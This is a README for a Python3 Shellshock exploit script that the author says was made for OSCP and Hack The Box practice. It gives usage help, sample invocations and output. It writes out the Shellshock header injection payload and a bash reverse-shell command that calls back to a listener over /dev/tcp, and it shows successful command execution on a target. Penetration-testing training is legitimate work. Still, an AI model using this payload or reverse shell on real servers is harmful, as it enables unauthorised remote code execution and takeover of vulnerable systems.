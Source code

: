 # shellshock
Python3 Shellshock exploit script made for OSCP and HTB. Essentially just sends a POST request to a specified uri. Created this because I could not figure out how to make the nmap HTTP-shellshock.nse script do what I wanted, and also could not remember the formatting.

## Notes
1. Run the script with python3
  
  - `python3 shellshock.py -h`
  
2. Works best when sending request through Burp.
    - Set up a proxy listener and forward the script requests to the host.
    - Intercept request and modify as necessary.


## Example 
### Usage
```
python3 shellshock.py -h
usage: ss.py -h | ss.py --help

Shellshock script to test vulnerable servers during OSCP and HTB. Works best when sending request through Burp. Set up a proxy listener and forward the script requests to the host. Intercept request and modify as necessary. Created this because I could not figure out how to make the nmap HTTP-shellshock.nse script do what I wanted

positional arguments:
  target                target to run against.

optional arguments:
  -p PORT, --port PORT  Default port = 80
  -u URI, --uri URI     URI to run against (typically /cgi-bin/something).
  -c COMMAND, --command COMMAND
                        command to run. Default payload = /bin/id
  -H HEADER, --header HEADER
                        Choose a specific header to test shellshock. Defaults to test User-Agent, Cookie, and Referrer
  -P http|https, --proto http|https
                        force protocol http or https
  -h, --help            		Print this help message then exit
  -v, --verbose         Verbose output

Examples:
    	python3 shellshock.py target -p port -u 'uri'
    	python3 shellshock.py 127.0.0.1 -p 8081 -u '/cgi-bin/something' -c 'bash -c "id"' --verbose -H 'Referer'
    	python3 shellshock.py 1.1.1.1 -p 10000 -u '/' --command 'bash -i >& /dev/tcp/10.10.10.1/1234 0>&1' --header 'User-Agent' --proto https
```
### Output
```
python3 shellshock.py 127.0.0.1 -p 8081 -u '/cgi-bin/user.sh' -c '/bin/bash -c "id"' -v

Target set to = 127.0.0.1
 Port set to = 8081
 URI set to = /cgi-bin/user.sh
 Command set to = /bin/bash -c "id"
 Header set to = ['User-Agent', 'Cookie', 'Referer']
 Protocol set to = http

Sending request with details:
    URI = http://127.0.0.1:8081/cgi-bin/user.sh
    Header for this request= {'User-Agent': '() { :;}; echo; /bin/bash -c "id"'}
    verify=False
Request sent. 
Done.
Status code returned = 200
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
